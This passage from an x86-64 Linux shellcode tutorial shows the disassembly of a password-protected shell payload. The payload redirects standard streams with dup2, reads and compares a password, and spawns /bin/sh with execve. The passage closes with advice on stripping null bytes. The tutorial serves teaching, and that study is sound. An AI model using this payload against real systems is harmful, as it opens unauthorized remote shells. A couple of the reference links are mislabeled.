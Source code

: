     0000000000000046 <dup2>:
      46:	b8 21 00 00 00       	mov    eax,0x21
      4b:	48 31 f6             	xor    rsi,rsi
      4e:	0f 05                	syscall 
      50:	b8 21 00 00 00       	mov    eax,0x21
      55:	48 ff c6             	inc    rsi
      58:	0f 05                	syscall 
      5a:	b8 21 00 00 00       	mov    eax,0x21
      5f:	48 ff c6             	inc    rsi
      62:	0f 05                	syscall 

    0000000000000064 <read_password>:
      64:	31 c0                	xor    eax,eax
      66:	50                   	push   rax
      67:	50                   	push   rax
      68:	54                   	push   rsp
      69:	5e                   	pop    rsi
      6a:	b2 10                	mov    dl,0x10
      6c:	0f 05                	syscall 

    000000000000006e <compare_password>:
      6e:	31 c9                	xor    ecx,ecx
      70:	8a 0d 90 ff ff ff    	mov    cl,BYTE PTR [rip+0xffffffffffffff90]        # 6 <pass_len>
      76:	48 8d 3d 85 ff ff ff 	lea    rdi,[rip+0xffffffffffffff85]        # 2 <password>
      7d:	fc                   	cld    
      7e:	f3 a6                	repz cmps BYTE PTR ds:[rsi],BYTE PTR es:[rdi]
      80:	75 1e                	jne    a0 <exit>

    0000000000000082 <execve>:
      82:	48 31 c0             	xor    rax,rax
      85:	50                   	push   rax
      86:	48 89 e2             	mov    rdx,rsp
      89:	48 be 2f 62 69 6e 2f 	movabs rsi,0x68732f2f6e69622f
      90:	2f 73 68 
      93:	56                   	push   rsi
      94:	48 89 e7             	mov    rdi,rsp
      97:	50                   	push   rax
      98:	57                   	push   rdi
      99:	48 89 e6             	mov    rsi,rsp
      9c:	b0 3b                	mov    al,0x3b
      9e:	0f 05                	syscall 

    00000000000000a0 <exit>:
      a0:	b0 3c                	mov    al,0x3c
      a2:	0f 05                	syscall 

Removing nulls
--------------

We're almost done. Now we want to remove nulls. From the `objdump` above you can see all null bytes are in `mov` instructions with immediate values. To remove these we can move/add to lower parts of the registers, instead of moving 64-bit values (whose higher bytes are nulls). But you need to make sure the higher part of the register is zeroed before (typically by xoring the register with itself).


[man_2_socket]: https://linux.die.net/man/2/syscall
[man_2_connect]: https://linux.die.net/man/2/bind
[man_2_dup2]: https://linux.die.net/man/2/dup2
[man_2_execve]: https://linux.die.net/man/2/execve
[man_2_read]: https://linux.die.net/man/2/read
[man_3_stdin]: https://linux.die.net/man/3/stdin
[beej_sockaddr_in]: https://beej.us/guide/bgnet/html/multi/sockaddr_inman.html
[endianness]: https://en.wikipedia.org/wiki/Endianness
[intel_sdm]: https://software.intel.com/en-us/articles/intel-sdm
[felixcloutier_x86]: https://www.felixcloutier.com/x86/
[cdq]: https://www.felixcloutier.com/x86/cwd:cdq:cqo
[SLAE64]: https://www.pentesteracademy.com/course?id=7